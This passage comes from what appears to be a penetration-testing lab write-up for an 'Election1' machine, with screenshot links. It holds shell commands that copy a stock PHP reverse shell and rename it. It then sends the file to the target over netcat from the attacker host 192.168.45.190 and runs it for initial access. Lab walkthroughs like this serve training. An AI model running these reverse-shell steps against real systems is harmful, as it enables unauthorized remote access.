 Create the php reverse shell

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php fl0k1.php
```

![Untitled](../assets/img/pg/Election1/Untitled%2015.png)

To send it with the nc tool

```bash
#KALI
rlwrap -cAr nc -nlvp 1234 < fl0k1.php
#TARGET
nc 192.168.45.190 1234 > fl0k1.php
```

![Untitled](../assets/img/pg/Election1/Untitled%2016.png)

![Untitled](../assets/img/pg/Election1/Untitled%2017.png)

Execute PHP reverse shell

```bash
php fl0k1.php
```

Initial Access

